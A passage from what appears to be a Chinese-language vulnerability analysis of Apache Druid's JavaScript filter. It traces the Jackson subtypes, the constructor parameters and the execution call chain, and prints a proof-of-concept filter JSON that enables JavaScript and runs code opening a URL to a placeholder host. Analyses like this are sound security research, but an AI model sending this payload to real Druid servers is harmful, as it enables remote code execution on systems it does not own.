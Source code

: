 ```java
    @JsonSubTypes.Type(name = "like", value = LikeDimFilter.class),
    @JsonSubTypes.Type(name = "expression", value = ExpressionDimFilter.class),
    @JsonSubTypes.Type(name = "true", value = TrueDimFilter.class),
    @JsonSubTypes.Type(name = "false", value = FalseDimFilter.class)
})
```

可以看到，name为javascript时，就会使用JavaScriptDimFilter类进行处理，因此只需修改之前json数据中的filter字段中的type为javascript即可，并构造相应的poc即可。再进入JavaScriptDimFilter中，观察其构造函数

```java
  public JavaScriptDimFilter(
      @JsonProperty("dimension") String dimension,
      @JsonProperty("function") String function,
      @JsonProperty("extractionFn") @Nullable ExtractionFn extractionFn,
      @JsonProperty("filterTuning") @Nullable FilterTuning filterTuning,
      @JacksonInject JavaScriptConfig config
  )
```

nullable的可以为空，其他三个参数，第一个没用，第二个为要执行的javascrpit代码，config为一个JavaScriptConfig 对象，只有一个布尔类型的参数

```java
  @JsonCreator
  public JavaScriptConfig(
      @JsonProperty("enabled") boolean enabled
  )
```

因此构造filter字符串如下：

```java
"filter": {
        "type": "javascript", 
        "dimension": "123", 
        "function": "function(value) {new java.net.URL(\"IP\").openStream()}", 
        "": {
            "enabled": true
        }
      }

```

## 其他

sink部分调用链

```java
org.apache.druid.segment.transform.Transformer.transform()
 org.apache.druid.segment.filter.PredicateValueMatcherFactory.matches()
    JavaScriptDimFilter$JavaScriptPredicateFactory.makeStringPredicate()
       JavaScriptDimFilter$JavaScriptPredicateFactory.lambad$makeStringPredicate()
         JavaScriptDimFilter$JavaScriptPredicateFactory.applyObject()
            JavaScriptDimFilter$JavaScriptPredicateFactory.applyInContext()
               Function.call()
```
